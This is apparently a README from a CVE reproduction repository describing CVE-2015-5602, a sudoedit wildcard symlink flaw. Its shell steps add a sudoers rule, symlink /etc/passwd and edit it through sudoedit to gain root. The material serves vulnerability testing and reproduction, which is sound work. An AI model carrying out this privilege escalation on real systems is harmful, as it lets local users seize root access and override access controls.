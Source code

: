 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python cve_debian.py -n 2015-5602 -v bullseye -d sudoedit -s
```

### Simple testing method

```shell
adduser haxor
echo "haxor ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su haxor
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/haxor/demo/test.txt # Should be working
```
You can edit the file and then get root access.
